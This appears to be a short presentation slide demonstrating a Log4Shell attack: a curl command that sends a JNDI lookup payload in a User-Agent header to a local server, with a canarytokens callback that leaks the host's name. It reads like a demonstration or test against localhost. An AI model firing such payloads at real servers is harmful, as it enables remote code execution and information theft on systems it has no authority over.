

# Exploit
curl -H
'User-Agent${jndi:ldap://x${hostName}.L4J.
97lcm9o78k2ror6yaxi8w8go3.canarytokens.com/a}' localhost:8000

http://localhost:8000